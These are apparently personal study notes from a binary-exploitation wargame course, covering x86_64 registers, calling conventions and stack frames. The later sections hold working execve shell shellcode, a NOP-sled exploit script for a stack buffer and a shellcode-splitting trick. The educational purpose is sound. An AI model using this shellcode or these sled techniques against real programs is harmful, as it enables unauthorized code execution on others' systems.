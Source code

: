```yaml
---
title: RET2 Systems notes
description: The notes I've taken so far in the RET2 Systems Wargames course
published: 2024-07-07
tags: [notes]
category: pwn
draft: false
---
```



## Registers

```nasm
Stack Pointer: rsp ; points to the top of the stack
Base pointer: rbp ; points to the bottom of the stack
```

Access lower bytes of registers like so:

```nasm
64-bit: rax, rcx, rsp
32-bit: eax, ecx, esp
16-bit: ax,  cx,  sp

8-bit-high: ah, ch (only for some registers)
8-bit-low: al, cl, spl
```

[Assembly Language & Computer Architecture Lecture (CS
      301)](https://www.cs.uaf.edu/2017/fall/cs301/lecture/09_11_registers.html)

## x86_64 Calling Convention

```nasm
1st arg: rdi
2nd arg: rsi
3rd arg: rdx
4th arg: rcx
5th arg: r8
6th arg: r9

Result: rax
```

## Stack Frame Layout

Without Stack Canary

```nasm
<local variables>    | ($rbp - 8) - ?
<saved base pointer> | $rbp points here
<return address>     | $rbp + 8
<stack arguments>    | ($rbp + 8) + ?
```

With Stack Canary

```nasm
<local variables>    | ($rbp - 16) - ?
<stack canary>       | $rbp - 8
<saved base pointer> | $rbp points here
<return address>     | $rbp + 8
<stack arguments>    | ($rbp + 8) + ?
```

Here, with the canary

`$rsp = 0x7fffffffed60` (top of the stack, just above the local variables)

![Stack Visualization](stack_vis.png)

`$rbp = 0x7fffffffedc0` (where the previous stack frame’s RBP value is stored)

## x86_64 Syscalls

Calling Convention:

```nasm
Syscall Number: $rax
Syscall Params: $rdi, $rsi, $rdx, $r10, $r8, $r9
```

x64 syscall arguments and numbers listed here:

[x64.syscall.sh](https://x64.syscall.sh/)

## Function Prologue

Allocates a stack frame for the function

```nasm
push rbp ; allocate 8 bytes on top of the stack and place rbp there (old rbp)
mov rbp, rsp ; set new base pointer to top of stack (rbp points to old rbp)
sub rsp, 0x30 ; allocate 48 bytes to the stack
```

## Function Epilogue

Release current stack frame and return execution to caller

```nasm
leave ; release stack frame
ret ; pop return addr off stack into rip
```

contents of `leave`

```nasm
mov rsp, rbp ; top of stack is now the old bottom of stack (releasing the old)
pop rbp ; base pointer is now the old rbp
```

contents of `ret`

```nasm
pop rip
```

## Pop Internals

```nasm
pop rax
```

Expanded:

```nasm
mov rax, qword [rsp]   ; copy value at [rsp] into register
add rsp, 0x8           ; move rsp down 8 bytes (de-allocate)
```

## Push Internals

```nasm
push rax
```

Expanded:

```nasm
sub rsp, 0x8           ; move rsp up 8 bytes (allocate)
mov qword [rsp], rax   ; put value where rsp now points
```

## 23-Byte Shellcode

```nasm
xor esi, esi
movabs rbx, 0x68732f2f6e69622f 
push rsi
push rbx
push rsp
pop rdi
push 0x3b
pop rax
xor edx, edx
syscall

`\x31\xF6\x48\xBB\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x56\x53\x54\x5F\x6A\x3B\x58\x31\xD2\x0F\x05`
```

Note: shellcode often needs to have no `\x00` (null bytes) in it as that marks the end of a string

## NOP-Sledding Example

```python
import interact

sh = b'\x31\xF6\x48\xBB\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x56\x53\x54\x5F\x6A\x3B\x58\x31\xD2\x0F\x05'
nop = b'\x90'

p = interact.Process()
p.sendline(nop*(511-len(sh))+sh) # buffer size = 512
p.interactive()
```

## Shellcode Splitting

If part of the shellcode consistently gets corrupted

Original shellcode:

```nasm
xor esi, esi
movabs rbx, 0x68732f2f6e69622f
push rsi
push rbx
push rsp
pop rdi
push 0x3b
pop rax
xor edx, edx
syscall
```

Split shellcode:

```nasm
xor esi, esi
movabs rbx, 0x68732f2f6e69622f
push rsi
push rbx
jmp $+0x6 ; jumps to 'push rsp'
nop ; can be corrupted
nop ; can be corrupted
nop ; can be corrupted
nop ; can be corrupted
push rsp ; execution resumes here
pop rdi
push 0x3b
pop rax
xor edx, edx
syscall
```

The 0x6 comes from the fact that it is counting bytes in the assembly:

```nasm
0xe:  eb 04                   jmp    14 <_main+0x14> ; rip=0xe
0x10: 90                      nop 
0x11: 90                      nop
0x12: 90                      nop
0x13: 90                      nop
0x14: 54                      push   rsp ; rip=0x14, 0x14-0xe=0x6

```